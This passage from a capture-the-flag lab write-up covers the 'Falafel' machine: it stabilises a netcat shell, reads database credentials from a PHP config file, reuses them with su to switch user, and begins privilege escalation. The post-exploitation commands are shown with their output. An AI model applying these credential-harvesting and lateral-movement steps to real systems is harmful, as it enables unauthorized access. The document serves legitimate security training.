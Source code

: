```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag.

The first thing I usually do when I get initial access through a web application, is look for credentials that the application is using. In the _/var/www/html_ directory, we find credentials in the _connection.php_ file.

```text
www-data@falafel:/var/www/html$ cat connection.php 
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

Most users reuse their passwords, so let’s try and su into _moshe_’s account using his database password.

```text
www-data@falafel:/var/www/html$ su moshe
Password:
moshe@falafel:/var/www/html$
```

We’re in! Grab the _user.txt_ flag.

![](../images/max/601/1*rP-BRvro06nEYYJ15ravJw.png)

Let’s look for ways to escalate our privileges.

## Privilege Escalation <a id="5337"></a>

Run the _id_ command to view the real and effective user ids for the _moshe_ user.

```text
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
```
